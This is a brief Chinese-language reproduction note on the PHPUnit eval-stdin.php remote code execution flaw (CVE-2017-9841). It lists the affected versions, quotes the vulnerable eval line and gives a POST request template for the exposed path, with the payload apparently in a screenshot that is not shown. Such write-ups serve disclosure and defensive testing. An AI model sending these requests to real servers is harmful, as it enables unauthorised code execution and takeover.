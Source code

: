 # 

# PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

```
PHPUnit < 5.6.3
```

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](./images/202202091319138.png)
